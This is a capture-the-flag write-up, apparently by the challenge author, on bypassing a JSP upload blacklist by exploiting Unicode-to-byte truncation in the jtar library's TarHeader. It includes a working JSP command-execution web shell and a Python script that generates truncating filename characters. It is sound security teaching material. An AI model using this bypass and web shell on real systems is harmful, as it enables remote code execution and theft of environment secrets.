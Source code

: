 # d3jtar-WP-EN

In this challenge, an insecure jsp parsing is configured under the `view` route of the website file backup system. Obviously, RCE can be achieved as long as the jsp file is successfully uploaded. However, the backend performs a relatively strict check on the name of the uploaded file. In my expectation, players cannot bypass the `secureUpload` check to upload the jsp file by other means.

Then, combined with the title of this challenge, we can know that the key to solving the challenge lies in the `jtar` packaging library used by the tool class `Backup`. When using jtar's `TarOutputStream` to package files, it will force the unicode in the file name to be converted into ascii code, resulting in character truncation. Using this, we can upload files with specific unicode characters in the suffix to the target machine, bypass the suffix blacklist check, and use the backup and restore function to convert the uploaded files into files with jsp suffix and put them back into the jsp parseable directory, and finally get the flag by RCE.

EXP:

filename：payload.陪sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

The specific principle can be found in the `getNameBytes` method of `TarHeader` in the jtar source code as shown below. Using `(byte)` to force conversion of unicode file names will cause character truncation, and the file name will change after packaging.（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）

![](static/UG5wbYnnGocOPJxyKrjcHXGAnsf.png)

The unicode characters used to solve the challenge can be obtained by referring to the following script. As long as they can be converted into normal suffixes' ASCII characters, for example, `payload.멪ⅳば` has the same effect.

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

In addition, if the players pay attention, there is a PR from 2023 in jtar's github project (at the top), which is a modification of Chinese encoding errors (but has not been merged). It can serve as a potential hint to remind players to pay attention to jtar's encoding issues.😉
